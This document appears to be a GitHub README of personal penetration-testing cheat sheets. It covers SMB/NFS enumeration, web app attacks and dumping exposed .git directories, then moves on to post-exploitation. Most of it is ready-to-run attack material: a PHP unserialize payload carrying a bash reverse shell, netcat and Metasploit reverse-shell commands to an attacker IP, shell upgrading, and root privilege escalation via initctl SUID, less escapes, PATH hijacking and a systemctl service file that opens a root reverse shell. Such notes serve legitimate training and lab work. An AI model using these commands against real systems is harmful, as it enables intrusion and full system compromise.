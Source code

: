 # CyberCheatSheets
Reference Sheets / Notes of techniques learned

## Enumeration:
+ <b>Samba - Shares & Users</b>
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 192.168.0.1
```

+ <b>NFS - Mounts</b>
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 192.168.0.1
```

## Web Apps:
+ <b>Check for vhost routing, modify /etc/hosts</b>
+ <b>.php files may have .bak (backup)</b>
+ <b>RCE via PHP Unserialize</b>
```
https://notsosecure.com/remote-code-execution-via-php-unserialize/
+ serialize as necessary as a parameter
public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/192.168.0.1/4242 0>&1\'"); ?>';
```
+ <b>Check for insecure redirects</b>
Open up ZAP/Burpsuite, capture the 302 response, change the status code from 302 to 200 and change the location field.

![image](https://user-images.githubusercontent.com/34889665/120560666-1e5e2680-c3d1-11eb-8d61-7dbd590ab5e5.png)
+ <b>Check for exposed /.git directory</b> 

Clone repository:
```bash
wget --mirror -I .git TARGET.COM/.git/ 
```

Get files from last commit:
```bash
git checkout -- .
```

Check out commit log:
```bash
git log
```

Check out previous commit:
```bash
git checkout 123456789
```

## Reverse Shells:

+ <b>Netcat - Listener</b>
```console
$nc -nvlp 4242
```

+ <b>Netcat - Connecting to Listener</b>
```console
nc -e /bin/sh 192.168.0.1 4242
```

+ <b>Netcat - Connecting to Listener without `-e`</b>
```console
$mknod /tmp/backpipe p
$/bin/sh 0</tmp/backpipe | nc <attacker_ip> 4242 1>/tmp/backpipe
```
+ <b>Metasploit - Listener</b>
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/shell/reverse_tcp
OR
set PAYLOAD linux/x86/shell/reverse_tcp
set LHOST 192.168.0.1
set LPORT 4242
run
```

## Upgrading/Stablizing Shells:

+ <b>Shell To Meterpreter</b>
```bash
(After shell has been backgrounded in Metasploit)
use post/multi/manage/shell_to_meterpreter
set SESSION 1
run
(OR)
sessions -u 1
```

+ <b>Using Python</b>

*Upgrading:*
```console
python -c ‘import pty;pty.spawn(“/bin/bash”)’
$export TERM=xterm
```

*Stablizing:*
```console
$^Z
$stty raw -echo; fg
(ENTER)
```
## Post-Meterpreter Shell To-Do's:
+ <b>Background Meterpreter Session</b>
```console
^Z
Y
```
+ <b>Use Local Exploit Suggester</b>
```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

### Windows Target:
+ <b>Get System Info (from meterpreter session)</b>
```
sysinfo
```

+ <b>Get System Info (standard shell) *look for hotfixes*</b>
```
systeminfo
```

## Enumeration:
+ <b>LinPEAS</b>
```
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
```


## Privilege Escalation:

+ <b>/sbin/initctl</b>
```
Check current status of services
sudo -u root /sbin/initctl list
```
```
Add this to test.conf
script
    chmod +s /bin/bash
end script
```
```
sudo /sbin/initctl start test.conf
$/bin/bash -p
#whoami
```

+ <b>less</b>
```
less [file in path user is allowed to execute less as root with]
!/bin/sh
```

+ <b>Add '.' to $PATH</b>
```
PATH=.:${PATH}
```

+ <b>Check for processes running as root</b>
```
ps -aux | grep root
```

+ <b>Check for world writable files</b>

```
find / -perm -2 -type f 2>/dev/null
```


+ <b>`/bin/systemctl` SUID</b>

*Check if `/bin/systemcl` is exploitable*
```
find / -perm -u=s -type f 2>/dev/null
```
or
```
find / -perm -4000 2>/dev/null
```

*Write service file with printf (will be written to `/tmp/root.service`)*
```
printf '[Unit]\nDescription=root\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.0.1/4242 0>&1"\n\n[Install]\nWantedBy=multi-user.target\n' > /tmp/root.service
```

*Enable and start the service*
```
systemctl enable /tmp/root.service
systemctl start root
```
